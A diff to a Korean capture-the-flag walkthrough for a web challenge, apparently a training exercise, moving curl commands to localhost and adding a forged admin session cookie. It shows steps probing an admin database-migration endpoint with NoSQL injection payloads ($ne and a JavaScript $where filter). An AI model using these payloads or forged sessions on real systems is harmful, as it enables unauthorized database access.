

Before and after one commit to dsaedsae/new_ctf_Web, a Markdown page: SOLUTION_WALKTHROUGH.md, 2 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
풀이 md 수정2

````diff
--- a/SOLUTION_WALKTHROUGH.md
+++ b/SOLUTION_WALKTHROUGH.md
@@ -597,7 +597,7 @@ curl http://ctf.challenge.com:5000/api/v2/services/admin/endpoints
 ### Action 19: 디렉토리 브루트포스 (또는 추론)
 
 ```bash
-curl -X POST http://ctf.challenge.com:5000/api/admin/db \
+curl -X POST http://localhost:5000/api/admin/db \
   -H "Cookie: session=..." \
   -H "Content-Type: application/json" \
   -d '{}'
@@ -606,24 +606,26 @@ curl -X POST http://ctf.challenge.com:5000/api/admin/db \
 **결과**: 404
 
 ```bash
-curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
-  -H "Cookie: session=..." \
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
   -H "Content-Type: application/json" \
   -d '{}'
 ```
 
 **결과**:
 ```json
-{
-  "status": "migration complete",
-  "count": 0
-}
+{"count":4,"status":"migration complete"}
 ```
 
 ### 참가자의 사고:
+> 메인 페이지 힌트: "migrate to v2 APIs"
+> 서비스 목록: database 존재
+> 시스템 특성: Legacy → Migration 개념
+> 권한 상태: Admin 세션 획득
+> 추론 완성: /api/admin/db/migrate
 > "오! /api/admin/db/migrate가 존재한다! 그리고 응답이 왔다!
 > - status: migration complete
-> - count: 0
+> - count: 4
 >
 > 데이터베이스 마이그레이션 도구인 것 같다. 어떤 파라미터를 받는지 실험해보자."
 
@@ -635,18 +637,18 @@ curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
 
 ```bash
 # 일반적인 DB 쿼리 파라미터 시도
-curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
-  -H "Cookie: session=..." \
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
   -H "Content-Type: application/json" \
   -d '{"query": {}}'
 ```
 
-**결과**: count: 0
+**결과**: count: 4
 
 ```bash
 # filter 파라미터 시도
-curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
-  -H "Cookie: session=..." \
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
   -H "Content-Type: application/json" \
   -d '{"filter": {}}'
 ```
@@ -664,13 +666,14 @@ curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
 > - filter: {} = 모든 문서 반환
 > - count: 4 = 데이터베이스에 4개 문서
 >
+1. localhost:5000/health에서 javascript_enabled":true, js 지원 db
 > 이건 MongoDB 같은 NoSQL 데이터베이스인 것 같다. NoSQL Injection을 시도해보자."
 
 ### Action 21: NoSQL Injection 시도
 
 ```bash
 # $ne (not equal) 연산자
-curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
+curl -X POST http://localhost:5000/api/admin/db/migrate \
   -H "Cookie: session=..." \
   -H "Content-Type: application/json" \
   -d '{"filter": {"username": {"$ne": "null"}}}'
@@ -678,10 +681,16 @@ curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
 
 **결과**: count: 4
 
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
+  -H "Content-Type: application/json" \
+  -d '{"filter": {"role": "admin"}}'
+{"count":1,"status":"migration complete"}
+
 ```bash
 # $where 연산자 (JavaScript 실행!)
-curl -X POST http://ctf.challenge.com:5000/api/admin/db/migrate \
-  -H "Cookie: session=..." \
+curl -X POST http://localhost:5000/api/admin/db/migrate \
+  -H "Cookie: session=eyJyb2xlIjoiYWRtaW4iLCJ1c2VyIjoiaGFja2VyIn0.aQNHWA.3hCxEzbBM3bCpm7bpRDh4WEag90" \
   -H "Content-Type: application/json" \
   -d '{"filter": {"$where": "function() { return true; }"}}'
 ```
````
Also changed, not shown: other parts of SOLUTION_WALKTHROUGH.md (+21 -7 lines).
